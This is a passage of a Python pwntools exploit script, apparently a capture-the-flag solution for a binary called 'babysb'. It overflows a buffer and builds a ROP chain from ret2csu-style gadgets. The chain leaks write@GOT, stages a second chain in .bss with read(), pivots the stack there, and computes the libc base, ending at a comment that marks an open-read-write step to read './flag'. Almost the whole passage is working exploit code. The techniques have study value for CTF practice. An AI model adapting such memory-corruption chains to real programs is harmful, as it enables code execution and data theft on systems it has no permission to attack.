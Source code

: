 ```python
   write_got = e.got['write']
   write_plt = e.plt['write']
   read_got = e.got['read']
   read_plt = e.plt['read']
   exit_plt = e.plt['exit']
   syscall = libc.symbols['syscall']

   # Another gadgets
   pop_rdi = rop.find_gadget(['pop rdi'])[0]
   pop_rsi = rop.find_gadget(['pop rsi'])[0]
   pop_rsp = rop.find_gadget(['pop rsp'])[0] # For stack pivot

   flag = b'./flag\x00' # What i want to read
   junk = flag + b'b'*(40-len(flag))
   
   gadget1 = 0x400c1a
   gadget2 = 0x400c00

   # bss
   # readelf -s ./babysb
   bss_start = 0x602010 

   # Where to store the ropchain
   ropchain = bss_start + 0x100

   # Craft payload 1 for storing second ropchain and leak write@got
   
   # LEAK WRITE@GOT - write(1, write@GOT, 0x8)
   payload =  junk
   payload += p64(gadget1)    # Gadget 1 (pops)
   payload += p64(0)          # pop rbx
   payload += p64(1)          # pop rbp
   payload += p64(write_got)  # pop r12 (call write)
   payload += p64(0x8)        # pop r13 (rdx, bytes to write)
   payload += p64(write_got)  # pop r14 (rsi, what to write)
   payload += p64(1)          # pop r15 (rdi, fd)
   payload += p64(gadget2)    # ret Gadget 2 (movs + pops)

   # Ropchain - read(0, bss, 0x300)
   payload += p64(0)          # add rsp, 8
   payload += p64(0)          # pop rbx
   payload += p64(1)          # pop rbp
   payload += p64(read_got)   # pop r12
   payload += p64(0x300)      # pop r13
   payload += p64(bss_start)  # pop r14
   payload += p64(0)          # pop r15
   payload += p64(gadget2)    # ret Gadget 2 (movs + pops)

   payload += p64(0)*7        # add rsp, 8 - pops

   # Stack pivot -> bss
   payload += p64(pop_rsp)    # pop rsp
   payload += p64(ropchain)   # ropchain address

   r.send(payload)

   # Calculate libc_base from leak
   leaked = int.from_bytes(r.recv()[:8], 'little')
   base = leaked - write_libc
   log.success('Libc_base: 0x{:x}'.format(base))
   

   # OPEN - READ - WRITE
```